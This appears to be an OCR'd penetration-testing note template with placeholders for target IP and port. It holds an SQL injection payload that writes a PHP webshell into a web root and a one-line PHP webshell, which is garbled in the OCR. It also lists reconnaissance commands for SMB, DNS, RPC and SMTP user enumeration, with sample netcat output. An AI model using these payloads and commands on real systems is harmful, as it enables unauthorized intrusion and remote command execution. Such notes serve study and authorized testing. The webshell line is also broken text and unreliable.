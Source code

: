 ```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```
- If we are now able to access this page we have a simple webshell

### File Upload
#### Webshell
```
$ <?php echo shell_exec( > $_GET['cmd']);?>
```

### Vulnerable CMS
#### Wordpress
```

```
## SMB
### SMBClient
```
smbclient -L \\\\<%tp.frontmatter.IP%>\\
```

### Enum4Linux
```
enum4linux -a <%tp.frontmatter.IP%> 
```

## DNS
### DNSRecon
```
dnsrecon -r 127.0.0.1/24 -n <%tp.frontmatter.IP%> -d blah
```

## RPC
### RPCDump
```
rpcdump.py <%tp.frontmatter.IP%> -p <%tp.frontmatter.Port%>
```
### RPC Client
```
rpcclient -U '' <%tp.frontmatter.IP%>
```
## SMTP
- Enumerate with the following for username enumeration/confirmation (in thiss example root)
```
kali@kali:~$ nc -nv <%tp.frontmatter.IP%> <%tp.frontmatter.Port%>
(UNKNOWN) [192.168.50.8] 25 (smtp) open
220 mail ESMTP Postfix (Ubuntu)
VRFY root
252 2.0.0 root
VRFY idontexist
550 5.1.1 <idontexist>: Recipient address rejected: User unknown in local recipient table
^C
```
